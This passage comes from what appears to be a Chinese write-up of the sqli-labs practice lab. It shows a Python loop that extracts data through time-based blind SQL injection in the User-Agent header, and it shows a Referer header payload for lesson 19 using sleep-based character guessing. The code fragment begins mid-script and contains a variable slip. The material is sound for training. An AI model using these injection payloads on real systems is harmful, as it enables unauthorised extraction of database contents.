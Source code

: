 ```
		if(time2 - time1 >=2):
			for j in range(num,num+5):
				url = txt1+str(i)+txt3+str(j)+txt4
				headers = {'User-Agent': payload}
				time1 = time.time()
				req = requests.post(url = url,data =key,headers = headers)
				time2 = time.time()
				if(time2 - time1 >=2):
					code += chr(j)
					print code
					num1 = 0
					num2 = 0
					num3 = 0
		else:
			num -= 5
			for j in range(num,num+5):
				payload = txt1+str(i)+txt3+str(j)+txt4
				headers = {'User-Agent': payload}
				time1 = time.time()
				req = requests.post(url = url,data =key,headers = headers)
				time2 = time.time()
				if(time2 - time1 >=2):
					code += chr(j)
					print code
					num1 = 0
					num2 = 0
					num3 = 0
```
![14](/img/2018-08-03/14.png)
##### 第十九关
跟第十八关一样，referer注入，也是insert语句
修改请求头
```
Referer: http://localhost/sqli-labs/Less-19/' or if(ascii(substr((select database()),1,1))>97,sleep(5),sleep(0)) or '
```